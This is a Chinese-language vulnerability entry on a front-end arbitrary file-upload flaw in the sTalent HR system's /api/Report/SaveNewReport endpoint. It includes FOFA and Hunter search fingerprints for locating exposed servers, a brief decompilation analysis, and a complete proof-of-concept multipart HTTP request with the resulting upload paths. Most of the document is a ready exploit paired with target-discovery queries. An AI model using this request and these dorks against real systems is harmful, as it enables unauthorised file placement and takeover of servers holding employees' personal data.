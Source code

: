 ```yaml
---
title: 朗新天霁sTalent文件上传
---
```


# 朗新天霁sTalent前台文件上传

## 漏洞厂商

北京朗新天霁软件技术有限公司

## 厂商官网

http://www.hrsoft.com.cn/  

## 产品

sTalent系统

## 指纹

**FOFA**

```
"/js/Comm/loadingsmall.js" && icon_hash="1772087922"
```

**Hunter**

```
web.body="/js/Comm/loadingsmall.js" && web.icon=="4859e39ae6c0f1f428f2126a6bb32bd9"
```

漏洞地址:`/api/Report/SaveNewReport`

漏洞分析:

在`Web.Api.dll`文件中进行反混淆，得到源代码。程序采用MVC结构

`Web.Api.Controllers.Report`类下的`SaveNewReport`存在文件上传漏洞

由于存在鉴权，需要方法添加注释

![](https://ckcsec.oss-cn-hangzhou.aliyuncs.com/img/image-20240624183117550.png)

这里满足，并且在`httpPostedFile`对象后调用了`SaveAs`方法

存储路径在`/report\\newReportFiles`下

## POC

```
POST /api/Report/SaveNewReport?rptId=1 HTTP/1.1
Host: x.x.x.x
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: ASP.NET_SessionId=qreedyvzmub5afo1nba2i22d
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryxzpiOaIdFLPXG0zW
Content-Length: 177 

------WebKitFormBoundaryxzpiOaIdFLPXG0zW
Content-Disposition: form-data; name="file";filename="1.txt"
Content-Type: image

111
------WebKitFormBoundaryxzpiOaIdFLPXG0zW—
```

文件路径:

`/report/newReportFiles/1_1.txt`

`report/newReportFiles/{rptId}_filename`

新版本路径在:`/api/Report/Report/SaveNewReport`

![](https://ckcsec.oss-cn-hangzhou.aliyuncs.com/img/image-20240624183400986.png)
